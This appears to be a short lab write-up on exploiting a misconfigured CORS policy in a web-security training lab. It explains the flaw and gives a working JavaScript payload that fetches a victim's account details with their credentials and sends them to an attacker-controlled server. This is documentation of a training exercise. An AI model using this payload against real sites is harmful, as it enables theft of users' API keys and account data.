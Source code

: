 # CORS Exploitation with Fetch

## Lab Context
This lab demonstrated a **misconfigured CORS policy**, where the application trusted all origins (`Access-Control-Allow-Origin: *`).  
Because of this, I was able to craft a malicious payload that used the victim’s browser session to fetch sensitive data from the API.

<img width="1920" height="1080" alt="Screenshot From 2025-09-09 13-19-13" src="https://github.com/user-attachments/assets/a4e72421-ebfe-44cd-9166-ce36b338d977" />
---

## Vulnerability Summary
- **Type**: Security Misconfiguration → Insecure CORS  
- **Impact**: Allowed an attacker to steal sensitive information (API key) from authenticated users.  
- **Root Cause**: The server blindly trusted all origins and allowed cross-origin requests with user credentials.

---

## Exploit Payload
I used the `fetch` API to request sensitive data from the victim’s 
endpoint and exfiltrate it to my controlled server.

```html
<script>
fetch("https://victim-site.web-security-academy.net/accountDetails", {
  credentials: "include"
})
  .then(r => r.text())
  .then(data => fetch("https://my-exploit-server.net/log?key=" + encodeURIComponent(data)));
</script>
